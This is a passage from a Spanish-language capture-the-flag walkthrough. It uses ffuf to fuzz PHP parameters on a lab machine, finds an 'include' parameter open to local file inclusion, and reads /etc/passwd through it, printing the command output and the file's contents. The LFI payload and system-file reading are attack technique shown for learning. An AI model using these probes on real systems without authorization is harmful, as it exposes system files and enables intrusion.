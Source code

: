 No veremos nada interesante, pero si veremos un `index.php` que es en el que estamos, como no podemos hacer nada mas, vamos a probar a realizar un `fuzzing` con parametro de `PHP` a ver si alguno fuera vulnerable a un `LFI`.

## FFUF

```shell
ffuf -u 'http://<IP>/index.php?FUZZ=/etc/passwd' -w <WORDLIST> -fs 361
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.96/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 361
________________________________________________

include                 [Status: 200, Size: 1750, Words: 125, Lines: 34, Duration: 24ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1342 req/sec :: Duration: [0:00:14] :: Errors: 0 ::
```

Veremos que ha funcionado, encontramos el parametro `include` como parametro vulnerable en el cual podemos leer archivos del sistema (`LFI`) local, por lo que vamos a realizar lo siguiente para probarlo.

## Escalate user ben

```
URL = http://<IP>/index.php?include=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```